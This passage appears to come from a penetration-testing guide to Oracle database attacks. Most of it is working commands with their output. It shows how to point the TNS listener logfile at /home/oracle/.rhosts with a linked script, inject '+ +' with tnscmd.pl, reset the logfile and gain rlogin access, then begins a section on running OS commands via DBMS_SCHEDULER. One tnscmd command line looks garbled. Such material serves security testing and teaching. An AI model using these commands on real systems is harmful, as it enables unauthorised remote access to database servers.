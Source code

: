 oracle-set-logfile.sh can be found here: [https://gist.github.com/netscylla/e026e9236a33db5922ad535229964944](https://gist.github.com/netscylla/e026e9236a33db5922ad535229964944)

Example attack gaining Rlogin access
```
$ /mnt/usb/oracle-set-logfile.sh '/home/oracle/.rhosts' 127.0.0.1
Attempting to change logfile on 127.0.0.1:1521
Old logfile: D:\Oracle\network\log\listener.log
sending
(DESCRIPTION=(CONNECT_DATA=(CID=(PROGRAM=)(HOST=)(USER=))(COMMAND=log_file)(ARGUMENTS=4)(SERVICE=LISTENER)
(VERSION=1)(VALUE=D:\Oracle\network\log\listener.log)))
to 127.0.0.1:1521
writing 216 bytes
reading
.x......"..l(DESCRIPTION=(TMP=)(VSNNUM=153093376)(ERR=0)(COMMAND=log_file)(LOGFILENAME=/home/oracle/.rhosts))
New logfile: /home/oracle/.rhosts
```
Exploit command:
```
./tnscmd.pl -h 192.168.2.156 -p 1521 --rawcmd "(CONNECT_DATA=((
> + +
> 
> "
```
Set Logfile back to normal
```
$ ./oracle-set-logfile.sh 'D:\Oracle\network\log\listener.log' 127.0.0.1
Attempting to change logfile on 127.0.0.1:1521
Old logfile: /home/oracle/.rhosts
sending
(DESCRIPTION=(CONNECT_DATA=(CID=(PROGRAM=)(HOST=)(USER=))(COMMAND=log_file)(ARGUMENTS=4)(SERVICE=LISTENER)(VERSION=1)
(VALUE=/home/oracle/.rhosts)))
to 127.0.0.1:1521
writing 219 bytes
reading
.{......"..o(DESCRIPTION=(TMP=)(VSNNUM=153093376)(ERR=0)(COMMAND=log_file)(LOGFILENAME=D:\Oracle\network\log\listener.log))
New logfile: D:\Oracle\network\log\listener.log
```
### R-login access
``` 
$ rlogin -l oracle <ipaddress>
```
More modern attacks can be achieved from manipulating SSH or serving webshells on an accessible webservice.

## Executing OS Commands via DBMS_SCHEDULER
### Requirements:
* CREATE JOB (10g Rel.1)
* CREATE EXTERNAL JOB (10g Rel.2 / 11g)
* EXECUTE on dbms_scheduler (granted to public by default)
* Since Oracle 10.2.0.2 the commands are executed as user nobody.
